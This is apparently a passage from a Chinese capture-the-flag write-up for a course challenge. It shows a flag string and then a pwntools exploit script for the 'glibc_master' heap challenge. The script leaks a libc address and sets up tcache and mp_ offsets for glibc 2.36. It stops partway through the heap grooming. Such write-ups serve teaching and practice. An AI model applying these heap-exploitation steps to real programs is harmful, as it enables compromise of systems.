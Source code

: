 ## flag

flag{8418020e-afcf-4994-86b1-99a294a3378d}


# glibc_master

没做出来，参考同学的wp

[glibc_master](/assets/binary/2023-04-13-%E9%AB%98%E7%BA%A7%E7%BD%91%E7%BB%9C%E6%94%BB%E9%98%B2%E6%BC%8F%E6%B4%9E%E5%88%A9%E7%94%A8/glibc_master.tar.gz)

```python
from pwn import *
#p = remote("124.16.75.116", 52018)
p = process('./pwn')
libc = ELF("./2.36-0ubuntu4_amd64/libc.so.6")
context.log_level = 'debug'
def menu(chi):
    p.recvuntil("> ")
    p.sendline(str(chi))
def add(idx, size, data="a", des="a"):
    menu(1)
    p.recvuntil("Index: ")
    p.sendline(str(idx)) # 0-79
    p.recvuntil("Size: ")
    p.sendline(str(size)) # 32-0x1000
    p.recvuntil("Data: ")
    p.send(data)
    p.recvuntil("Description: ")
    p.send(des)
def free(idx):
    menu(2)
    p.recvuntil("Index: ")
    p.sendline(str(idx)) 
def edit(idx, data, des):
    menu(3)
    p.recvuntil("Index: ")
    p.sendline(str(idx))
    p.recvuntil("Data: ")
    p.send(data)
    p.recvuntil("Description: ")
    p.send(des)
menu(1337)
p.recvuntil("real one\n")
puts = u64(p.recv(6).ljust(8, b"\x00"))
print("[+] puts => " + hex(puts))
libc_base = puts - 0x77820
print("[+] libc_base => " + hex(libc_base))

strlen_got_libc = libc_base + 0x1D2080
mp_ = libc_base + 0x1D23A8 - 0x68
tcache_ptr = mp_ + 0x60
max_bin = mp_ + 0x68

add(0, 0x418) # A p->fd
add(1, 0x108) # barrier
add(2, 0x438) # B0 helper
add(3, 0x448) # C0 = p; addr(p) & 0xff = 0
add(4, 0x108) # barrier
add(5, 0x488) # H0 helper for write bk->fd victim chunk
add(6, 0x428) # D p->bk
add(7, 0x108) # barrier
add(8, 0x458)
```